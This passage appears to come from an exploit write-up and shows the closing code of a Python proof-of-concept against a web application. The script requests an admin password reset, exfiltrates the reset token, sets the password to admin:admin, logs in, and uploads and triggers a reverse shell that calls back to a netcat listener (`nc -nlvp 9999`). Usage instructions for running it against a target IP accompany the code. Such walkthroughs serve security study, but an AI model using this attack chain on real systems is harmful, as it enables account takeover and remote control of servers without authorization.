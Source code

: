 Last but not least, create the function that will visit the page with the payload.

```python
def execute_revshell(session):
    print(BASE_URL + REVSHELL_UPLOAD_PATH)
    response = session.get(BASE_URL + REVSHELL_UPLOAD_PATH)
    assert response.status_code != 404, "Reverse Shell not found"
```

# Putting it all together

Once we have our functions defined, our listener up and running `nc -nlvp 9999`, we can simply run the functions one by one to get the reverse shell.

```python
if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("[USAGE] poc.py http://<targetip> <localip> <localport>")
        exit()
    BASE_URL = sys.argv[1]
    HOST = sys.argv[2]
    PORT = sys.argv[3]
    
    username = "admin"
    password = "admin"
    # Request Admin
    request_reset(username)
    print("[+] Admin Password Reset Requested, time to get the token")
    ## Exfiltrate Token
    user_token = exfiltrate_token(SESSION)
    print(f"[+] {username} Token Found: {user_token}")
    ## Change User Password
    if not change_password(user_token, password):
        print("[-] Password Change failed, verify the validity of the token.")
        exit()
    print(f"[+] {username} password changed, New creds => {username}:{password}")
    # Login with new creds
    if not login_user(SESSION, username, password):
        print(f"[-] Could not login with credentials {username}:{password}")
        exit()
    print(f"[+] Login Successful as {username}.")
    create_rev_shell(HOST, PORT)
    update_item(SESSION)
    execute_revshell(SESSION)
```

![Executing the PoC](images/Pasted%20image%2020231125194233.png)
